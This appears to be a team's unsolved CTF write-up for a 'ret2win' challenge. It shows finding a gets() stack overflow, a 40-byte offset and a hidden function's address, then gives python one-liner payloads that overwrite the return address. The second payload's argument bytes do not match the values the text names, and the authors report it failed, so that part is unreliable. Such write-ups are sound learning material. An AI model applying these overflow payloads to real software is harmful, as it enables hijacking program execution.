




# Ret2win (Unsolved)

Since we had some time left after we finished the web challenges, we thought about attempting a reverse engineering challenge, so here it goes.

In this challenge we are given a binary that is hosted on a server that we can connect to via netcat. Also we were given the binary itself so we opened it with ghidra and started looking.

sifting through the functions we find those three functions:







So our mission is to call the `supersecrettoplevelfunction` as it's not called by default in neither `user_input` nor in `main`

and we can see that the `user_input` function is using `gets` and a fixed buffer size, which indicates that's it is a classic buffer overflow fulnerability.

Here we started doing some dynamic analysis to see when do we reach the `RET` (return call) of the function and get a segmintation fault. after some testing we found that the binary crashes after enetring exactly 40 bytes.

So now we must find the flag function's address in memroy. we can easily do that with `objdump`

```bash
objdump -D ./ret2win_bin | grep supersecrettoplevelfunction      
0000000000401196 <supersecrettoplevelfunction>:
  4011bb:       75 17                   jne    4011d4 <supersecrettoplevelfunction+0x3e>
  4011c4:       75 0e                   jne    4011d4 <supersecrettoplevelfunction+0x3e>
  4011d2:       eb 0d                   jmp    4011e1 <supersecrettoplevelfunction+0x4b>
```

Now that we have the address we can use it to reach the function

```bash
python3 -c 'import sys; sys.stdout.buffer.write(b"A"*40 + b"\x96\x11\x40\x00\x00\x00\x00\x00")' | ./ret2win_bin
```

and sure enough the binary prints out 
```
[!!] You are good but not good enough for my company
```

and that's totaly the right path as the function checks for the arguments before allowing us to get a shell.
Looking at the arguments' values being checked we can see that the first is being checked to be equal to 'cafebabe' and the second being 'c0debabe'

so we tried to add those values next to the return address of the function 

```bash
python3 -c 'import sys; sys.stdout.buffer.write(b"A"*40 + b"\x96\x11\x40\x00\x00\x00\x00\x00" + b"\x42\x45\x01\x35" + b"\x42\x45\x21\x3f")' | ./ret2win_bin
```
but unfortunately it didn't work neither any order or formatting ar padding done to this payload



Most of those techniques we learned from this article [here](https://web.archive.org/web/20161106210059/https://www.exploit-db.com/docs/28553.pdf)

[here](https://gitlab.ritsec.cloud/competitions/ctf-2023-public/-/blob/main/BIN-PWN/ret2win/ritsec23-ret2win.pdf) is the official write-up for the challenge

it appears that we must pop `rdi` and `pop rsi;pop r15` registers
